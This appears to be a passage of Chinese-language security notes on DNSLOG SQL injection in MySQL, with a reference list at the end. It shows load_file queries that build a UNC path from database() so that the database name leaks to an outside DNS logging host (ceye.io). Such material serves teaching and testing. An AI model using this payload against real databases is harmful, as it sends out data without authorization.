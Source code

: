 #### DNSLOG注入

**DNS在解析的时候会留下日志，通过读取多级域名的解析日志，来获取信息。简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。**

dnslog平台：<http://ceye.io/>

``` sql
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```

## 参考资料

* SQL 注入速查表
* MySQL 注入技巧
* MySQL 注入科普
* MySQL 注入总结
* 《SQL 注入攻击与防御（第2版）》
